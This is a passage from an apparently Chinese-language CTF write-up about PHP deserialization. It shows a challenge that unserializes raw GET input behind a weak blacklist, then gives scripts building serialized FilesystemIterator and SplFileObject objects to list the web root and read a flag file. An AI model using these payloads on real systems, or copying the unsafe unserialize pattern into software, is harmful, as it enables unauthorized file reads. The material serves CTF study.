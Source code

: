 ```php
    function vaild($code){
        $pattern = '/[!|@|#|$|%|^|&|*|=|\'|"|:|;|?]/i';
        if (preg_match($pattern, $code)){
            return false;
        }
        else
            return true;
    }
}


if(isset($_GET['pop'])){
    unserialize($_GET['pop']);
}
else{
    $a=new A;

}
```
感觉就是利用原生类去读取文件了，在[手册](https://www.php.net/manual/zh/book.spl.php "手册")以下几个类需要注意：

| DirectoryIterator  | 遍历目录                         |
| ------------------ | -------------------------------- |
| FilesystemIterator | 遍历目录                         |
| SplFileObject      | 读取文件，按行读取，多行需要遍历 |

然后就是读目录，读文件的操作了：
```php
<?php
class A{
    public $class='FilesystemIterator';
    public $para="/var/www/html";
    public $check;
    }
$o  = new A();
echo serialize($o);
```

```php
<?php
class A{
    public $class='SplFileObject';
    public $para="/var/www/html/aMaz1ng_y0u_c0Uld_f1nd_F1Ag_hErE/flag.php";
    public $check;
    }

$o  = new A();
echo serialize($o);
```

## 0x03 红明谷
